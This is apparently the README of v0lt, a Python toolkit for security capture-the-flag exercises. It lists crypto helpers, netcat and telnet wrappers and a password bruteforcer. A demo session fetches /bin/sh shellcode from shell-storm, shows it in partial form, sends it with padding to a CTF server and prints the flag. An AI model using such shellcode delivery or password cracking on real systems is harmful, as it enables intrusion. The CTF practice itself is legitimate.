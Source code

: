 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style.
A lot of exercises were solved using bash scripts but Python may be
more flexible, that's why.
Nothing to do with Gallopsled. It's a toy toolkit, with small but
specific utils only.

##Requirements and Installation
####Dependencies:
* Libmagic
* Python3
  * BeautifulSoup
  * Requests
  * filemagic
  * hexdump
  * passlib

####Installation:
```Bash
# for v0lt install
git clone https://github.com/P1kachu/v0lt.git
cd v0lt
[sudo] python3 setup.py install # sudo is required for potentially missing dependencies
```

##Demo: Shellcodes
```Python
>>> from v0lt import *
>>> nc = Netcat("archpichu.ddns.net", 65102)
Connected to port 65102
>>> print(nc.read())
GIVE ME SHELLCODZ
>>> shellhack = ShellHack(4096, "bin","execve")
>>> shellhack.get_shellcodes(shellhack.keywords)

...<SNIPPED>...
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
...<SNIPPED>...

Selection: 86
Your choice: http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"

>>> nc.shellcat(shellhack.shellcode)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:
File name too long
P1kaCTF{sh3llc0de_1s_e4zY}
```
##Implemented:
* Crypto
    * Base64
    * Ceasar shift
    * Hashing functions (SHA, MD5)
    * Bits manipulations (XOR, inverse XOR)
    * Usual conversions (bytes, strings, hex)
    * RSA basics (inverse modulo, inverse power, egcd...)
    * Bruteforcing (Dictionnary, custom word)

* Shellcodes
    * Shellcode selection and download from Shell-storm repo
    * Shellcode formater
    * Shell{cat,net}: Sending shellcode made easy
    * Automatic padding

* Easy connection support
    * Netcat
    * Telnet

And more
Examples are available ![here](./v0lt/examples.py)


# Changelog

Only includes major features and changes. Bugfixes and
minor changes are omitted.

## 1.4
- Better Shellhack shellcode recovering
- Add docstrings
- Delete Hexeditor (not good)

## 1.3

- Lots of fixes again
- Hexeditor (Dump/Rewrite files)
- Unix password bruteforce cracker

## 1.2

- Lots of documentation/bugs/framework fixes
- Added bruteforce
- Added linux utils
- Began hexeditor
- Shellhack fixes
- Alert messages

## 1.0

- Lots of documentation fixes
- Lots of bugfixes
- Added shellhack (shellcodes stuff)
- Added crypto utils
- Added network utils
- Fixed project tree
